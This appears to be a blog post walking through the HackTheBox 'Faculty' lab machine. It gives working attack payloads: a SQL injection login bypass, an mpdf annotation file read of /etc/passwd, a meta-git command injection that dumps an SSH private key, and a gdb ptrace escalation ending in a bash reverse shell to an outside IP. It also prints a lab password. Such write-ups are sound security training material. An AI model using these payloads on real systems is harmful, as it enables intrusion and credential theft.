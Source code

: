 ```yaml
---
title: "Faculty Machine Writeup"
classes: wide
header:
  teaser: /assets/images/hackthebox/Faculty.png
ribbon: red
description: "Faculty is medium machine"
categories:
  - HackTheBox
toc: false
---
```


# HackTheBox Faculty Machine Walkthrough

<img src="/assets/images/hackthebox/Faculty.png" style="zoom:50%;" />

## Recon

First, let's start with nmap port scanning.

![](/assets/images/hackthebox/nmap-results.png)

We can see that port 80 is open so let's check the running web service.

![](/assets/images/hackthebox/Website.png)

Running gobuster against the site. it shows the following results:

![](/assets/images/hackthebox/gobuster-1.png)

This `/admin` path looks interesting, so let's run gobuster against it (this will come in handy later).

![](/assets/images/hackthebox/gobuster-2.png)

Now if we can go to the `/admin` path we can see a login page.

I tried admin/admin as the login creds but it didn't work, so I tried basic SQL injection ` admin' or 1=1 -- -` in the username field and it successfully bypassed the login page.

![](/assets/images/hackthebox/bypass-login.png)

![](/assets/images/hackthebox/administrator-page.png)

After some checks in website I found a page where I can upload a new pdf file and download a pdf file containing the list of uploaded pdfs.

![faculty-list](/assets/images/hackthebox/faculty-list.png)

When I clicked on the download pdf button, I noticed `mpdf` in the generated file url.

![](/assets/images/hackthebox/mpdf.png)

Searching for `mpdf`, it turned out to be a `PHP library which generates PDF files from UTF-8 encoded HTML`.

We can also intercept the request in burp and decode the `pdf` parameter to see the decoded HTML file ( base64 and url decode twice).

![pdf-burp](/assets/images/hackthebox/pdf-burp.png)

A quick search and I found a vulnerability for `mpdf` library (CVE-2019-1000005).

We can test that the vulnerability works using (\<img src="http://10.10.x.x/"\>) as the HTML file then encode it and replace the pdf parameter in the burp request with it.

![cyberchef](/assets/images/hackthebox/cyberchef.png)

nc returns a response, NOICE!

![](/assets/images/hackthebox/test-vuln-2.png)

## Shell as gbyolo

Now that the vulnerability is working, we can try to read different files from the server using this payload:

`<annotation file=\"/etc/passwd\" content=\"/etc/passwd\"  icon=\"Graph\" title=\"Attached File: /etc/passwd\" pos-x=\"195\" />`

![](/assets/images/hackthebox/lfi.png)

`/etc/passwd`

<img src="/assets/images/hackthebox/passwd.png" style="zoom: 67%;" /> 

`./login.php`

![](/home/emperor10/Pictures/login.png)

Notice the included file `./db_connect.php`, let's try to read it.

![](/assets/images/hackthebox/db_connect.png)

We found a password, so I tried it with the username `gbyolo` as ssh creds.

username: `gbyolo`
password: `Co.met06aci.dly53ro.per`

![](/assets/images/hackthebox/gbyolo-user.png)

## Shell as developer

Running `sudo -l`, we can see that `gbyolo` user can run `meta-git` (a NPM package that can manage your meta repo and child git repositories) as `developer` user.

I found a [report](https://hackerone.com/reports/728040) on hackerone showing an RCE exploit for this package so I crafted this payload to read the rsa key for the `developer` user.

`sudo -u developer /usr/local/bin/meta-git clone 'test||cat /home/developer/.ssh/id_rsa' `.

![](/assets/images/hackthebox/developer-id_rsa.png)

> Remember to change the permissions of the `id_rsa` file to 600

Now we can ssh into box with `developer` user and read `user.txt`.

![](/assets/images/hackthebox/developer-user.png)

## Shell as root

Running [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), I found that `gdb` has `CAP_SYS_PTRACE` capability which allows it to debug any other process.

![](/assets/images/hackthebox/gdb.png)

So let's search for a python process running as `root` user to be able to run a system command using python's `system()` function:

`ps aux | grep "^root.*python3" | awk '{print $2}'`

Found one, now attach gdb to it.

`gdb -p $PID`

![gdb](/assets/images/hackthebox/gdb-exploit-1.png)

Finally run a nc listener on our side and call `system()` function to get a reverse shell.

`call (void)system("bash -c 'bash -i >& /dev/tcp/10.10.x.x/4444 0>&1'")` 

![gdb](/assets/images/hackthebox/gdb-exploit-2.png)

![gdb](/assets/images/hackthebox/root.png)